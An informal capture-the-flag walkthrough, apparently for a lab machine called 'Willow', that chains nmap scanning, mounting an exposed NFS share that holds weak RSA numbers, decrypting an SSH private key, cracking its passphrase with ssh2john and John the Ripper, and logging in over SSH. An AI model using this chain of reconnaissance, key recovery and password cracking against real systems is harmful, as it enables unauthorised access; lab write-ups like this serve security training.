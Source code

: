 

```export IP=10.10.138.174```

```nmap -sV -sC $IP```

from port 2049, we get this

```──╼ $mkdir nfs

└──╼ $sudo mount $IP:/var/failsafe nfs/

└──╼ $ls -la
total 8
drwxr--r-- 2 nobody nogroup 4096 Jan 30  2020 .
drwxr-xr-x 1 srini  srini     92 May 14 20:55 ..
-rw-r--r-- 1 root   root      62 Jan 30  2020 rsa_keys

└──╼ $cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
```

so we go the public and private key pair, now we got to decrypt that fkin private key, lets do it

```wget http://$IP:80/ -O rsahex``` or get the content from the site on port 80 and paste it in your rsahex

conerting that hex top ascii gives us some encrypted stuff

our little exp.py gave us the idrsa but its still has a password

```$/usr/share/john/ssh2john.py idrsapasswd > idrsajohn```

this gav eus the passweorfd
```john --wordlist=/usr/share/wordlists/rockyou.txt idrsajohn```

and we got the username from index.html - willow

```ssh -i idrsapasswd willow@10.10.138.174```
```scp -i idrsapasswd willow@$IP:/home/willow/user.jpg .```

